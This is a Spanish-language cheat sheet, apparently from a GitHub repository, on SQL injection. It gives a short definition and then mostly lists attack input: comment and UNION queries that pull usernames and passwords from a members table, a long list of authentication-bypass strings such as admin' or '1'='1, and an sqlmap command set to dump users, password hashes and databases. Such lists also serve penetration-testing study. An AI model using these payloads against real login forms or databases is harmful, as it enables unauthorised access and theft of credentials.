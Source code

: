 # SQL Injection
> Sql Injection ó Inyección SQL es una vulnerabilidad que permite al atacante enviar o “inyectar” instrucciones SQL de forma maliciosa y malintencionada dentro del código SQL programado para la manipulación de bases de datos.
## Referencia de sintaxis, ejemplos de ataques y trucos de inyección de SQL
```
Username: admin'--
SELECT * FROM members WHERE username = 'admin'--' AND password = 'password' 
```
## Con union, realiza consultas SQL entre tablas. Básicamente, puede envenenar la consulta para devolver registros de otra tabla.
```
SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members 
' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--
```
## Omisión(bypass) de autenticación
```
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
admin" --
admin';-- azer 
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```
## Inyección de SQL usando SQLmap
```
sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```
Puedes descargar SQLMap a través de su página Web [sqlmap.org](http://sqlmap.org/) o usar GIT:
```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev*
```
## Referencias 
* [OpenWebinars](https://openwebinars.net/blog/que-es-sql-injection/)
* [Netsparker](https://openwebinars.net/blog/que-es-sql-injection/)
